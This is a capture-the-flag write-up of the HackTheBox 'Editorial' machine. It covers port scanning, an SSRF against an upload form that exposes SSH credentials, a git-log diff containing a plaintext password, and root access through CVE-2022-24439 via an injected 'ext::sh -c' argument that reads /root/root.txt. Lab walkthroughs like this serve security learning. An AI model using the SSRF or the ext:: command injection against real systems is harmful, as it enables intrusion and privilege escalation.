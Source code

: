 ```yaml
---
title: Editorial Writeup - HackTheBox
date: 2024-06-09
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
img_path: /assets/img/commons/editorial/
image: editorial.png
---
```


Hello!

In this write-up, we will dive into the **HackTheBox** seasonal machine [Editorial](https://app.hackthebox.com/machines/Editorial).
It is a **Linux** machine on which we will carry out a **SSRF attack** that will allow us to gain access to the system via SSH.

Then, we will proceed to do an **user pivoting** and then, as always, a **Privilege Escalation**. 

Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active and we will add the machine IP to our `/etc/hosts` file:

```bash
ping -c 1 10.129.1.176
```

```bash
sudo nano /etc/hosts 
```

## Port scanning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv 10.129.1.176 -oG allPorts
```

![nmap](nmap_allPorts.png)

The only open ports that we see are 80 (HTTP server) and 22 (SSH), we can see more information of the services by executing:

```bash
nmap -sCV 22,80 10.129.1.176 -oN targeted -oX targetedXML
```

![nmap_targeted](nmap_targeted.png)


## Exploitation
---

If we open the IP address in firefox, we can see the following website:

![home](home.png)

we don't see anything interesting, so we go to the _publish with us_ section:

![upload](upload.png)

After sending the request from this page and observing it with burpsuite, I was able to identify that this page could be susceptible to SSRF attack so I tried to do something like this: In the url requested in the form we have put our localhost with port 5000 (`127.0.0.1:5000`) and for the image, we have opened an http server with python in a folder in which we had any photo, as always:

```bash
python -m http.server 5000
```

and I put the image name in the form.

After clicking on the preview button, we get the request with burpsuite and we see this:

![upload_cover](upload_cover.png)

We make a new request to this new endpoint, and get it again with burpsuite:

![user_endpoint](user_endpoint.png)

We see that the server response shows us several endpoints, the endpoint `/api/latest/metadata/messages/authors` seems to be interesting.

Let's make a new request:

![api_call](api_call.png)

we get this new response with burpsuite:

![user_creds](ssh_credentials.png)

We can now access to the machine via SSH as the user **dev**, and get the user flag:

![ssh1](ssh_connect.png)

![user_flag](user_flag.png)

<br>

## User pivoting
---
Trying to escalate privileges, we access the apps folder where we find a .git folder, inside we find some logs that allow us to see the old commits on the directory. After reviewing all the logs, we found an interesting one:

```
commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

diff --git a/app_api/app.py b/app_api/app.py
new file mode 100644
index 0000000..61b786f
--- /dev/null
+++ b/app_api/app.py
@@ -0,0 +1,74 @@
+# API (in development).
+# * To retrieve info about editorial
+
+import json
+from flask import Flask, jsonify
+
+# -------------------------------
+# App configuration
+# -------------------------------
+app = Flask(__name__)
+
+# -------------------------------
+# Global Variables
+# -------------------------------
+api_route = "/api/latest/metadata"
+api_editorial_name = "Editorial Tiempo Arriba"
+api_editorial_email = "info@tiempoarriba.htb"
+
+# -------------------------------
+# API routes
+# -------------------------------
+# -- : home
+@app.route('/api', methods=['GET'])
+def index():
+    data_editorial = {
+        'version': [{
+            '1': {
+                'editorial': 'Editorial El Tiempo Por Arriba', 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': '/api/v1/metadata/'
+            }},
+            {
+            '1.1': {
+                'editorial': 'Ed Tiempo Arriba', 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': '/api/v1.1/metadata/'
+            }},
+            {
+            '1.2': {
+                'editorial': api_editorial_name, 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': f'/api/v1.2/metadata/'
+            }},
+            {
+            '2': {
+                'editorial': api_editorial_name, 
+                'contact_email': 'info@tiempoarriba.moc.oc',
+                'api_route': f'/api/v2/metadata/'
+            }},
+            {
+            '2.3': {
+                'editorial': api_editorial_name, 
+                'contact_email': api_editorial_email,
+                'api_route': f'{api_route}/'
+            }
+        }]
+    }
+    return jsonify(data_editorial)
+
+# -- : (development) mail message to new authors
+@app.route(api_route + '/authors/message', methods=['GET'])
+def api_mail_new_authors():
+    return jsonify({
+        'template_mail_message': "Welcome to the team! We are thrilled to have 
you on board and can't wait to see the incredible content you'll bring to the ta
ble.\n\nYour login credentials for our internal forum and authors site are:\nUse
rname: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your p
assword as soon as possible for security purposes.\n\nDon't hesitate to reach ou
t if you have any questions or ideas - we're always here to support you.\n\nBest
 regards, " + api_editorial_name + " Team."
+    }) # TODO: replace dev credentials when checks pass
+
+# -------------------------------
+# Start program
+# -------------------------------
+if __name__ == '__main__':
+    app.run(host='127.0.0.1', port=5001, debug=True)
```

We found the credentials of the **prod** user, we access again via SSH as this user. 

<br>

## Privilege escalation
---

Now, as the user prod, we are able to run the command `sudo -l` to try to find superuser processes that we can run as the user prod:

![sudo-l](sudo-l.png)

We find that we can execute the command `python3 /opt/internal_apps/clone_changes/clone_prod_change.py`, but we can't modify the python file.

After some research, we found the vulnerability [CVE-2022-24439](https://www.cvedetails.com/cve/CVE-2022-24439/), so we can try to get the root flag by executing the following:

```bash
python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt"
```

We can now access the `root.txt` file, and we have the root flag.


> H4Ppy H4ck1ng!
